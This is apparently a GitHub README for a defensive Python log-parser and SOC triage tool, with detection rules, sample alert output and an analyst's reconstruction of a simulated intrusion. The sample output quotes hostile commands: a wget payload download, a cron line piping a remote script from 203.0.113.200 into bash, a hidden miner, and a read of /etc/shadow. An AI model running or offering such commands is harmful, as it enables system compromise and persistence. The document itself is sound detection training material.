

# Log Parser & SOC Triage Simulator


A Python CLI that parses Linux authentication logs, sudo/cron activity, and HTTP access logs, then emits **severity-ranked structured alerts** in the field schema a SIEM alert queue uses — `timestamp`, `event_type`, `severity`, `source_ip`, `user`, `detail`.

I built this to practise the Tier-1 workflow from the analyst's side: not "is there a tool that finds this", but *what fields does an analyst actually need in front of them to make a triage decision in thirty seconds.*

Standard library only. No dependencies, no installation.

---

## Detection Pipeline



---

## Detection Coverage

| # | Detection | Trigger logic | Severity | MITRE ATT&CK |
|---|---|---|---|---|
| 1 | **SSH brute force** | `Failed password` count per source IP ≥ threshold | HIGH | [T1110](https://attack.mitre.org/techniques/T1110/) Brute Force |
| 2 | **Off-hours SSH access** | Successful login outside the business-hours window | MEDIUM | [T1078](https://attack.mitre.org/techniques/T1078/) Valid Accounts |
| 3 | **Sudo auth failure** | `incorrect password attempts` / `authentication failure` | HIGH | [T1548.003](https://attack.mitre.org/techniques/T1548/003/) Sudo Caching |
| 4 | **Unexpected cron** | `CRON[...] CMD` not present in the known-good baseline | HIGH | [T1053.003](https://attack.mitre.org/techniques/T1053/003/) Scheduled Task: Cron |
| 5 | **HTTP error cluster** | ≥ threshold 4xx/5xx responses from one source IP | HIGH | [T1595](https://attack.mitre.org/techniques/T1595/) Active Scanning |

Severity ranking is deliberate: an analyst working a queue needs the HIGH rows at the top, not chronological order.

---

## Real Output

Run against the bundled sample logs, which encode a single coherent intrusion — external brute force, a compromised `intern` account, off-hours access, then persistence via cron.

**Authentication log**

```
$ python3 log_parser.py auth_sample.log --type auth

TIMESTAMP             SEVERITY EVENT_TYPE             SOURCE_IP       USER         DETAIL
----------------------------------------------------------------------------------------------------------------------
Dec 30 10:00:01       HIGH     ssh_brute_force        203.0.113.45    admin,oracle,postgres 6 failed password attempts across 4 account(s)
Dec 30 10:42:55       HIGH     sudo_auth_failure      -               intern       failed sudo authentication - possible privilege escalation attempt
Dec 30 23:47:13       MEDIUM   offhours_ssh_login     203.0.113.99    root         successful login at 23:00, outside 08:00-20:00
Dec 31 03:12:40       MEDIUM   offhours_ssh_login     198.51.100.7    intern       successful login at 03:00, outside 08:00-20:00
Dec 30 09:01:11       MEDIUM   sudo_command           -               deploy       ran as root: /usr/bin/systemctl restart nginx
Dec 31 03:14:02       MEDIUM   sudo_command           -               intern       ran as root: /usr/bin/wget http://203.0.113.200/x.sh
Dec 30 14:20:00       INFO     sudo_command           -               deploy       ran as www-data: /usr/bin/git pull
----------------------------------------------------------------------------------------------------------------------
7 alert(s) from 15 log lines   HIGH=2  MEDIUM=4  INFO=1
```

**System log — cron persistence**

```
$ python3 log_parser.py syslog_sample.log --type system

TIMESTAMP             SEVERITY EVENT_TYPE             SOURCE_IP       USER         DETAIL
----------------------------------------------------------------------------------------------------------------------
Dec 31 03:16:01       HIGH     cron_unexpected        -               intern       NOT in cron baseline: curl -s http://203.0.113.200/beacon.sh | bash
Dec 31 04:07:44       HIGH     cron_unexpected        -               www-data     NOT in cron baseline: /tmp/.hidden/miner --daemon
Dec 30 03:35:12       MEDIUM   sudo_command           -               deploy       ran as root: /usr/bin/apt-get update
Dec 30 02:00:01       INFO     cron_execution         -               root         baseline task: /usr/local/bin/backup.sh
----------------------------------------------------------------------------------------------------------------------
```

**JSON output for SIEM ingestion**

```
$ python3 log_parser.py auth_sample.log --type auth --format json --min-severity HIGH
[
  {
    "timestamp": "Dec 30 10:00:01",
    "event_type": "ssh_brute_force",
    "severity": "HIGH",
    "source_ip": "203.0.113.45",
    "user": "admin,oracle,postgres",
    "detail": "6 failed password attempts across 4 account(s)"
  },
  {
    "timestamp": "Dec 30 10:42:55",
    "event_type": "sudo_auth_failure",
    "severity": "HIGH",
    "source_ip": "-",
    "user": "intern",
    "detail": "failed sudo authentication - possible privilege escalation attempt"
  }
]
```

---

## Reading the Alerts as an Analyst

The sample output is one incident, not seven unrelated events. Correlating by account and time:

| Time | Event | Interpretation |
|---|---|---|
| Dec 30 10:00 | 6 failed SSH logins from `203.0.113.45` across 4 accounts | External credential spray — noisy, unsuccessful |
| Dec 30 10:42 | `intern` fails sudo while running `cat /etc/shadow` | **Pivot point.** Account is already inside and reaching for the hash file |
| Dec 31 03:12 | `intern` logs in successfully at 03:12 from `198.51.100.7` | Off-hours access, same IP that probed root earlier |
| Dec 31 03:14 | `intern` runs `wget` from `203.0.113.200` as root | Second-stage payload retrieval |
| Dec 31 03:16 | Cron entry beaconing to `203.0.113.200` | Persistence established |

The brute force is the loud event; the `intern` sudo failure is the one that matters. That ordering is the whole point of the exercise.

---

## Usage

```bash
# authentication log - brute force, off-hours access, sudo misuse
python3 log_parser.py auth_sample.log --type auth

# system log - cron baseline comparison
python3 log_parser.py syslog_sample.log --type system

# web access log - enumeration and credential stuffing
python3 log_parser.py access_sample.log --type access

# JSON output, HIGH and above only
python3 log_parser.py auth_sample.log --type auth --format json --min-severity HIGH

# tighter brute-force threshold, night-shift business hours
python3 log_parser.py auth_sample.log --type auth --threshold 2 --business-start 22 --business-end 6
```

| Flag | Default | Purpose |
|---|---|---|
| `--type` | *required* | `auth` \| `system` \| `access` |
| `--threshold` | `3` | Events per source IP before clustering into one alert |
| `--business-start` / `--business-end` | `8` / `20` | Business-hours window for off-hours detection |
| `--format` | `table` | `table` \| `json` |
| `--min-severity` | `INFO` | Suppress anything below `INFO`/`LOW`/`MEDIUM`/`HIGH`/`CRITICAL` |

---

## What I'd Do Differently in Production

This is a lab tool and there are places it would not survive contact with a real log volume. Being specific about them:

- **Regex parsing is the wrong layer.** Real deployments should ship logs to a parser that already understands the format — Filebeat/Elastic ingest pipelines or a Fluent Bit parser — rather than hand-rolling patterns that break on the next distro's `sshd` version string. This project parses so that I understood *what* is being parsed.
- **Files are read fully into memory.** `readlines()` is fine for a sample and wrong for a 4 GB rotated log. A production version streams line by line and holds only the per-IP counters.
- **The cron baseline is hardcoded.** `CRON_BASELINE` should come from a config file or, better, be derived from the actual crontab at deploy time, so drift is detected rather than assumed.
- **No state between runs.** A brute force spread across a rotation boundary is invisible to this tool. Real detection needs a sliding time window kept outside the process.
- **Severities are static.** They should be risk-scored by asset criticality and account privilege — a failed sudo by a service account on a payment host is not the same alert as one on a dev box.
- **No enrichment.** Source IPs should be enriched with geolocation, ASN, and threat-intel reputation before an analyst sees them; `203.0.113.45` alone does not tell you whether to escalate.
- **Timestamps have no year or timezone.** Syslog omits the year, which breaks year-boundary correlation. Production parsing normalises everything to UTC ISO-8601 on ingest.

---

## Repository Structure

```
LogParserProject/
├── log_parser.py          # detection engine, stdlib only
├── auth_sample.log        # sshd + sudo events
├── syslog_sample.log      # cron + sudo events
├── access_sample.log      # Apache/nginx combined format
├── screenshots/           # terminal captures
└── README.md
```

> Sample logs are small, hand-written fixtures built to exercise each detection path — not captured production data. They exist so the detection logic is verifiable by anyone cloning the repo.

---

## Author

**Muhammad Rumman Aqeel** — Security Operations / Cloud Security

[GitHub](https://github.com/rummanaqeel) · [LinkedIn](https://linkedin.com/in/rumman-aqeel) · rummanaqeel8@gmail.com
